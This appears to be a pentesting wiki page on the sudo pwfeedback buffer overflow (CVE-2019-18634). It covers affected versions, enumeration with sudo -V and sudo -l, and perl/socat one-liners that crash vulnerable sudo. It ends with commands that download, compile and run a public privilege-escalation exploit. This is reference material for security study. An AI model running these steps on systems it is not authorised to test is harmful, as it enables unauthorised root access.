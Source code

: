 ```yaml
---
description: CVE-2019-18634
---
```


# Pwfeedback Buffer Overflow

## Theory

Sudo’s pwfeedback option can be used to provide visual feedback when the user is inputting their password. For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard `Password:` prompt disables the echoing of key presses. While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.  

The vulnerability affect sudo versions **1.7.1** to **1.8.30**.  

{% hint style="danger" %}
Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled. The bug can be reproduced by passing a large input with embedded terminal kill characters to sudo from a pseudo-terminal  
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enum" %}
To exploit, sudo version must be vulnerable (**1.7.1** to **1.8.30**)
```bash
$ sudo -V
Sudo version 1.8.30
```

Pwfeedback must be enabled. You may verify it with `sudo -l`. If pwfeedback is listed in the “Matching Defaults entries” output, the sudoers configuration is affected. 
```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, pwfeedback, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) /usr/bin/python3 /opt/custom/service.py
```

To check the exploitability of sudo, you may run the following commands. If it's returns a `Segmentation fault` error message, then it’s vulnerable.
```bash
$ socat pty,link=/tmp/pty,waitslave exec:"perl -e 'print((\"A\" x 100 . chr(0x15)) x 50)'" &
$ sudo -S -k id < /tmp/pty
Password: Segmentation fault (core dumped)
```

For sudo versions prior to 1.8.26, and on systems with uni-directional pipes, reproducing the bug is simpler.
```bash
$ perl -e 'print(("A" x 100 . chr(0)) x 50)' | sudo -S -k id
Password: Segmentation fault (core dumped)
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [exploit](https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c) written by Saleem Rashid. 
```bash
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
./exploit
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://www.sudo.ws/security/advisories/pwfeedback/" %}
